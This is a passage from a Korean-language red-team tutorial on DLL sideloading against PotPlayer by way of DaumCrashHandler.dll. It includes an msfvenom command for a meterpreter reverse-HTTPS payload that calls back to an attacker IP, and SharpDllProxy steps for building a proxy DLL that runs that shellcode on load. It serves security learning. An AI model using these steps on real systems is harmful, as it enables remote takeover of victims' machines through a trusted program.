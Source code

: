 ```
```

이외에도 `DllMain` 과 `DllExport` 가 모두 사용 가능한 라이브러리들이 많이 나오지만, 일단 `PotPlayer.dll` 과 `DaumCrashHandler.dll` 에 주목한다. `PotPlayer.dll` 은 공개된 연구 이후 패치를 더해 사이드로딩이 막혔지만, `DaumCrashHandler.dll` 은 사이드로딩이 가능하다. 사이드로딩이 가능하다는 정보를 수집했으니 쉘코드와 프록시 DLL 생성 단계로 넘어간다.

#### 프록시 DLL 생성

DLL 생성 전, 공격에 사용될 쉘코드를 만든다. .NET 어셈블리를 donut 형태로 만들수도 있지만, 간단한 PoC를 위해 msfvenom을 이용해 meterpreter 쉘코드를 작성한다. 32비트 기반 프로그램과 DLL이기 때문에 쉘코드도 x86로 만든다.

```
msfvenom -p windows/meterpreter/reverse_https -f raw lhost=192.168.40.182 lport=443 -o meter-x86.bin
```

이후 DLL과 쉘코드를 한 디렉토리에 옮긴 뒤, FlangVik의 [SharpDLLProxy툴](https://github.com/Flangvik/SharpDllProxy)을 이용해 프로그램에 로드가될 공격자의 프록시 DLL을 생성한다.

```
# .\SharpDllProxy.exe --dll .\DaumCrashHandler.dll --payload .\meter-x86.bin

< ... > 

# ls


    Directory:
    C:\opt\SharpDllProxy\SharpDllProxy\bin\Debug\netcoreapp3.1\output_DaumCrashHandler


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          7/1/2022   6:35 PM           2444 DaumCrashHandler_pragma.c
-a----          7/1/2022   6:35 PM         131232 tmp4405.dll
```

그러면 DLL 1개와 `.c` 소스코드 1개가 생긴다. 이 `tmp4405.dll` 이라는 파일은 이름이 바뀐 원래 `DaumCrashHandler.dll` 파일이다. 프록시 DLL이 될 파일은 `DaumCrashHandler_pragma.c` 이며, VS나 MVSC, CMake 등을 이용해 컴파일 해서 DLL로 만들면 된다.

이제 준비된 파일들은 다음과 같다:

* PotPlayerMini.exe - 실제로 실행될 PE 바이너리
* tmp4405.dll - 원래 `DaumCrashHandler.dll` 파일. 이름만 바뀐 형태다.
* DaumCrashHandler.dll - 공격자가 생성해낸, attach 시 쉘코드를 실행하는 프록시 DLL
* meter.bin - raw 형태의 쉘코드 파일. DaumCrashHandler.dll 가 attach이 이 쉘코드가 실행된다.
* PotPlayer.dll - PotPlayerMini.exe가 실행할 때 꼭 필요한 라이브러리

이제 이를 실행시키면 다음과 같은 형태로 코드 실행이 일어난다.

1. PotPlayerMini.exe 파일이 실행되며 LoadLibrary를 이용해 DaumCrashHandler.dll 을 로드
2. DaumCrashHandler.dll 은 attach 되는 즉시 같은 디렉토리내의 meter.bin을 읽어와 실행
3. PotPlayerMini.exe가 DaumCrashHandler.dll에서 사용하고 싶은 함수들은 모두 실제 DLL인 tmp4405.dll 에게 프록시되어 실행

암호화되지 않은, 기본적인 meterpreter 쉘코드와 인터넷에 공개되어 있는 PoC를 기반으로 실행한 DLL 사이드로딩의 결과는 다음과 같다.

![](../.gitbook/assets/dll-sideloading.gif)
